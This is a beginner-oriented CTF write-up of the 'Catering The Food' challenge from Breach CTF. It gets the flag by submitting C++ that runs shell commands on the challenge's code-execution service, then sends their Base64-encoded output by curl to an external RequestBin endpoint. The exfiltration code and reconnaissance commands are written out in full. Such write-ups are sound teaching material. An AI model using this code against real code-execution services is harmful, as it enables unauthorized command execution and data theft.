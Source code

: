 ```yaml
---
title: "Catering The Food"
date: 2025-04-10 12:29:58 +0200
categories: writeups ctf
tags: ctf rce requestbin
description: Writeup of the Catering The Food challenge from the Breach CTF.
image: ../assets/images/posts/logos/breach-ctf.png
---
```

## Introduction

#### **Author**: Álvaro Bernal (aka. **trr0r**)

This writeup walks through the challenge **Catering The Food** from the [Breach CTF](https://ctf.breachers.in/). It is intended for **beginners** and includes detailed descriptions of each step, along with commentary for every screenshot. I believe the proposed solution is not the intended path for the challenge, but exploring alternative exploitation techniques is **valuable**, as it broadens our understanding and reveals a range of **potential attack vectors**.

---
## Challenge Description

Embark on an extraordinary journey to etch your name in history as the most legendary caterer the world has ever known.

```
input: 99999 99999 99999 
output: 173977761
```

> author: DustOfSnow

[https://ppc-ctf.challs.breachers.in](https://ppc-ctf.challs.breachers.in/)

[Attached PDF](https://ppc-ctf.challs.breachers.in/static/CTF-Cater_the_food.pdf)

___
### Request Bin

First, we need to go to [Requestbin](https://requestbin.whapi.cloud/) and create a **public URL** where we will be receiving the **output** of the commands we execute.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406202922.png>)

By clicking on `Create a RequestBin`, a public URL endpoint is generated. We’ll copy this URL to the clipboard, since it will be required in subsequent steps.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203025.png>)
### Receiving `curl` command

The code snippet demonstrates using the `system()` function in C++ to run a `curl` command:

```cpp
#include <iostream>
#include <iostream>
#include <cstdlib>  // To use system()

// Author: Álvaro Bernal (aka. trr0r)

int main() {
    // Declare curl command
    const char* command = "curl http://<your-request-bin-url>/testingifcurlworks";
    
    // Make a system call to execute curl command
    int result = system(command);
    return 0;
}
```

The previously written code will be pasted into the website, which provides an environment for executing C++ code directly.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203526.png>)

Shortly after, a GET request will be triggered and received at the previously created RequestBin endpoint (public URL).

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406203348.png>)
### Script to receive commands' output

This stage of the challenge becomes more **complex**. Previously, it was enough to confirm that the target system was susceptible to **remote command execution**. Now, however, we need to ensure we can execute **arbitrary commands reliably**. To facilitate this and minimize potential errors, we’ll implement two helper functions that will **streamline** the command injection process and improve flexibility:

- `base64_encode`: Encodes command output to Base64.
- `url_escape`: Escapes characters to make the data safe for URLs.

In summary, the code that we will need to input into the webpage to **execute arbitrary commands seamlessly**, without any complications, is as follows:

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <string>

// Author: Álvaro Bernal (aka. trr0r)

// Function to manually encode a string in Base64
std::string base64_encode(const std::string& input) {
    const std::string base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    std::string encoded;
    int val = 0, valb = -6;
    for (unsigned char c : input) {
        val = (val << 8) + c;
        valb += 8;
        while (valb >= 0) {
            encoded.push_back(base64_chars[(val >> valb) & 0x3F]);
            valb -= 6;
        }
    }
    if (valb > -6) encoded.push_back(base64_chars[((val << 8) >> (valb + 8)) & 0x3F]);
    while (encoded.size() % 4) encoded.push_back('=');
    return encoded;
}

// Function to escape special characters for URL encoding
std::string url_escape(const std::string& str) {
    std::string escaped;
    for (char c : str) {
        if (c == ' ') escaped += "+";  // Replace space with "+"
        else if (c == '&') escaped += "%26";  // Escape "&"
        else if (c == '?') escaped += "%3F";  // Escape "?"
        else if (c == '=') escaped += "%3D";  // Escape "="
        else if (c == '%') escaped += "%25";  // Escape "%"
        else if (c == '/') escaped += "%2F";  // Escape "/"
        else if (c == '#') escaped += "%23";  // Escape "#"
        else escaped += c;  // Add characters as-is if they are not special
    }
    return escaped;
}

int main() {
    FILE* fp = popen("whoami", "r");  // Execute "whoami" command - Modifiy as your needs
    if (fp == nullptr) return 1;  // Exit if command execution fails

    char buffer[512];
    std::string output;
    while (fgets(buffer, sizeof(buffer), fp)) {
        output += buffer;  // Add each line of the output to the string
    }
    fclose(fp);  // Close the file pointer

    if (!output.empty() && output[output.size() - 1] == '\n') output.pop_back();  // Remove newline character at the end

    std::string encoded_output = base64_encode(output);  // Encode the output in Base64
    std::string escaped_output = url_escape(encoded_output);  // Escape the Base64 encoded output for URL

    // Prepare the curl command with the Base64 encoded and URL escaped output
    std::string curl_command = "curl \"http://<your-request-bin-url>/?output=" + escaped_output + "\"";
    system(curl_command.c_str());  // Execute the curl command

    return 0;
}
```
### Getting comands' output

The procedure executed by the C++ script is outlined below.
1. Run `whoami`
2. Encode in Base64
3. Escape for URL
4. Send with `curl`.

Upon completion, we will see a **base64-encoded** string being received at our RequestBin endpoint.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210403.png>)

___
### Getting the flag

By decoding the **base64-encoded** content, we will uncover the **username** under which the remote commands are being executed.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210349.png>)

Next, we will modify the previously shared code slightly to execute the following command, which will enable us to **list all directories and files from the system's root**.

```bash
ls -la
```

By repeating the same process as before (decoding the base64-encoded string received at the RequestBin), we will obtain the **directory structure**.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210445.png>)

Next, we will make another modification to the code, this time to display the contents within the **app directory**.

```bash
ls -la /app/
```

Upon inspection, we will observe a directory (**/static**) and a file (**WEB_API.py**), the latter of which will stand out since it is responsible for serving the website.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210558.png>)

If we try to access the content of the file, we will observe that **no request** is made to our RequestBin endpoint.

```bash
cat /app/WEB_API.py
```

This problem may occur because the file's content is **too large**, causing the URL to become **too long**, which prevents it from being sent due to the character limit. As an alternative, we will run the following command to display the **first 20 lines of the file**.

```bash
head -n 20 /app/WEB_API.py
```

At this point, we will notice that we receive a request (which is quite long). After decoding its content, we will discover that we have successfully accessed **the flag**, completing the challenge in a fully **valid alternative way**.

![](<../assets/images/posts/2025-04-10-cateringthefood/Pasted image 20250406210752.png>)

___
## Final Notes

This challenge tested basic concepts in **RCE**, exfiltration techniques via **HTTP requests**, and basic reconnaissance within a containerized environment. For **beginners**, it's a great introduction to chaining small steps into a successful exploit path.